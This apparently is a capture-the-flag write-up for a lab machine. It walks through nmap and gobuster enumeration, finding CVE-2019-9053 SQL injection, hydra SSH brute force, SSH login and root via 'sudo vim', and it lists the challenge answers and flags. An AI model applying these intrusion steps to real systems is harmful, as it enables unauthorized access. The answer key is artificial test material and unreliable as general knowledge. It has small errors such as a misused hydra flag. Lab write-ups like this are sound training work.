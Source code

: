 # Simple CTF writeup
The first task when beggining a CTF is enumeration

## Nmap 
```bash
namp -T4 -sV 10.10.140.110
```
The Nmap flag ```-sV``` is useful as it returns details to do with the versions of services running on the target 

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```
### How many services are running under port 1000?
We have found 3 ports 21, 80, 2222. 
since 2222 is greater than 1000 the answer is
> 2
### What is running on the higher port?
> ssh

## Port 80: Apache
![image](./ScreenShots/webserver.png)
Let's continue enumeration using Gobuster

## Gobuster
```
gobuster dir -u 10.10.140.110 -w /usr/share/wordlists/dirb/common.txt
```
To find Directories in the web server
```
/.hta                 (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/index.html           (Status: 200) [Size: 11321]
/robots.txt           (Status: 200) [Size: 929]
/server-status        (Status: 403) [Size: 301]
/simple               (Status: 301) [Size: 315] [--> http://10.10.140.110/simple/]
```
_Useful findings : ``/robots.txt``, ``/simple``_

### /robots.txt
![image](./ScreenShots/robots.png)

### /simple
![image](./ScreenShots/simple.png)
##### It appears that this site is using content management system(CMS). I scrolled down the page, and was able to find what version of this software is
![image](./ScreenShots/exploitdb.png)
##### After searching for the version in exploit db ,I found that there is an sql injuction vulnerablity in that version
![image](./ScreenShots/exploit.png)
### What's the CVE you're using against the application?
> CVE-2019-9053

### To what kind of vulnerability is the application vulnerable?
The shorthand for sqlInjuction is sqli
> sqli

```python3 46635.py -u http://10.10.117.187/simple/ -w rockyou.txt -c```
but its not working properly since it is built for older version of python
so use hydra to bruteforce username and password
```bash
hydra -l usernames.txt -P best110.txt ssh://10.10.140.110:2222 -t 4
```
```
[DATA] attacking ssh://10.10.140.110:2222/
[2222][ssh] host: 10.10.140.110   login: mitch   password: secret
```
### What's the password?
> secret

### Where can you login with the details obtained?
we got ssh user name and password 
> ssh
## Login into ssh
```
ssh mitch@10.10.140.110 -p 2222
pasword: secret
```
![image](./ScreenShots/ssh.png)

### What's the user flag?
![image](./ScreenShots/user.png)
```
cat user.txt
```
> G00d j0b, keep up!

### Is there any other user in the home directory? What's its name?
```
ls /home
```
![image](./ScreenShots/users.png)
> sunbath

### What can you leverage to spawn a privileged shell?
```
sudo -l
```
![image](./ScreenShots/vim.png)
> vim
## Escalate Privilage
To escalate privilage we need to exploit vim
```
sudo vim
```
![image](./ScreenShots/sudo.png)
### What's the root flag?
![image](./ScreenShots/root.png)
> W3ll d0n3. You made it!

